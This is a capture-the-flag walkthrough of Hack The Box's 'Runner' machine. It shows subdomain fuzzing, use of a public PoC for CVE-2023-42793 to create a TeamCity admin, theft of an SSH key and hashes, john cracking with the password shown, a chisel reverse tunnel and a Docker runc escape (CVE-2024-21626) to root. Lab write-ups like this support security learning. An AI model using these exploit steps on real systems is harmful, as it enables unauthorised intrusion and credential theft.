 ```yaml
---
title:  HTB - Runner
date: 2023-06-07 12:17:34 -0400
categories: [hackthebox , Runner]
tags: [HackTheBox, Pivoting, wfuzz, TeamCity, ssh, john, chisel, portainer, docker,fuzz]
image:
  path: /assets/img/post/runner/runner.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Runner.
---
```


## Box Info

| Name                  | Bizness          | 
| :-------------------- | ---------------: |
| Release Date          | 08 Jun, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Medium           |

## Enumeration

### Nmap

![Image](/assets/img/post/runner/0.png)

### Resolution DNS

```bash
echo "10.10.11.13 runner.htb | sudo tee -a /etc/hosts
```

### Scanning SubDomain

```bash
wfuzz -c -w /usr/share/wordlists/amass/shubs-subdomains.txt --hc 400,404,403,302 -H "Hosts: FUZZ.runner.htb" -u http://runner.htb -t 100
```

![Image](/assets/img/post/runner/1.png)

```bash
Whatweb http://runner.htb
```
## CVE-2023-42793 for Jet Brains

We can see the version of `TeamCity build management server`.

![Image](/assets/img/post/runner/2.png)

Googling `Teamcity 2023.05.3` exploit i found a `RCE` vulnerability for it.

![Image](/assets/img/post/runner/3.png)

PoC[^poc]: <https://github.com/Zyad-Elsayed/CVE-2023-42793>

```bash
python3 exploit.py -u http://teamcity.runner.htb -n test2 -p test122 -e test2@test.com
```

![Image](/assets/img/post/runner/4.png)

The script exploits to create an admin account on a TeamCity server. It sends a POST request to the target URL to create an admin user with specified or random credentials.

![Image](/assets/img/post/runner/5.png)

## SSH

Once inside, I enumerate these sections and found in Diagnostics make a backup and storage in a zip file and can we display the folders and found id_rsa.

![Image](/assets/img/post/runner/6.png)

We go to download and save for login with ssh.

![Image](/assets/img/post/runner/7.png)

Wait.. but dont have a user for login with ssh...

![Image](/assets/img/post/runner/8.png)

We also found users and there hashes in same folder.

![Image](/assets/img/post/runner/9.png)

## Crack Hash

We go to crack the password for it.

![Image](/assets/img/post/runner/10.png)

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash.txt
```
Using default input encoding: UTF-8 Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3]) Remaining 1 password hash Cost 1 (iteration count) is 128 for all loaded hashes Will run 2 OpenMP threads

Password: `piper123`

Till now we have one id_rsa file, two users (Methew, jhon),password for Methew.

`ssh -i id_rsa john@10.10.11.13`

![Image](/assets/img/post/runner/12.png)

![Image](/assets/img/post/runner/11.png)

## Port Forwarding

```bash
netstat -nltp
ss -nltpu
```

127.0.0.1:9000 its potential, I’ll be employing Chisel for port forwarding.

![Image](/assets/img/post/runner/13.png)

```bash
chisel server -p 6150 --reverse (Attack Machine)
./chisel client 10.10.14.68:6150 R:9000:127.0.0.1:9000 (Victim machine)
```

![Image](/assets/img/post/runner/14.png)

We go to our port 9000

![Image](/assets/img/post/runner/15.png)

## Docker

Login with credentials `matthew` - `piper123`

<https://nitroc.org/en/posts/cve-2024-21626-illustrated/#how-docker-engine-calls-runc>

![Image](/assets/img/post/runner/16.png)

## CVE-2024-21626 for Docker

![Image](/assets/img/post/runner/17.png)

the path `/proc/self/id/8` is from the [CVE-2024-21626](https://nitroc.org/en/posts/cve-2024-21626-illustrated/#how-docker-engine-calls-runc) - [PoC - GitHub](https://github.com/NitroCao/CVE-2024-21626?tab=readme-ov-file)

![Image](/assets/img/post/runner/18.png)

Now we go to console

![Image](/assets/img/post/runner/19.png)

Execute a `/bin/bash` as root

![Image](/assets/img/post/runner/20.png)

Just login as root and look the folder `root` for the flag

![Image](/assets/img/post/runner/21.png)

Root

#### Source
[^poc]: <https://github.com/Zyad-Elsayed/CVE-2023-42793>